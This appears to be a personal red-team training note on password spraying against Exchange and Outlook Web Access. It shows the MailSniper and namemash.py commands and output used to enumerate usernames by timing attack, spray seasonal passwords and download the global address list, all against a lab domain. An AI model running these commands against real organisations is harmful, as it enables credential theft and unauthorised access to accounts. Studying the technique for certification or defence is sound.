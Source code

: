 

Password spraying is an effective technique for discovering weak passwords that users are notorious for using. 

Patterns such as MonthYear (August2019), SeasonYear (Summer2019) and DayDate (Tuesday6) are very common.

## 🖊️ Tools

Two excellent tools for password spraying against Office 365 and Exchange are [MailSniper](https://github.com/dafthack/MailSniper) and [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit).

`PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1

## 📔 Attack Method

- Build a list of users or usernames
- Build a list of possible passwords
- Enumerate the NetBIOS name of the target domain with `Invoke-DomainHarvestOWA`, for example:

	`PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

- [namemash.py](https://gist.github.com/superkojiman/11076951) will take a person's full name and transform it into possible username permutations.
```
ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> ~/namemash.py names.txt > possible.txt
ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> head -n 5 possible.txt
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```

- `Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.

```
PS C:\Users\Attacker> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
Determining baseline response time...
Response Time (MS)       Domain\Username
763                      cyberbotic.io\OkAJfr
738                      cyberbotic.io\UGVuQv
750                      cyberbotic.io\ztHyFf
749                      cyberbotic.io\dsLWDY
762                      cyberbotic.io\YgFBIP

         Baseline Response: 752.4

Threshold: 460.44
Response Time (MS)       Domain\Username
[*] Potentially Valid! User:cyberbotic.io\bfarmer
[*] Potentially Valid! User:cyberbotic.io\iyates

```

- MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).
```
PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
[*] Now spraying the OWA portal at https://mail.cyberbotic.io/owa/
[*] SUCCESS! User:cyberbotic.io\iyates Password:Summer2022
[*] A total of 1 credentials were obtained.
```

Always be aware of account lockout, avoiding blocking and causing noise in the environment. 

- We can do further actions using MailSniper with valid credentials, such as downloading the global address list.
```
PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```


##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{06-02-2024}} 17:19
🏷️ tags: #redteam #crto   
---

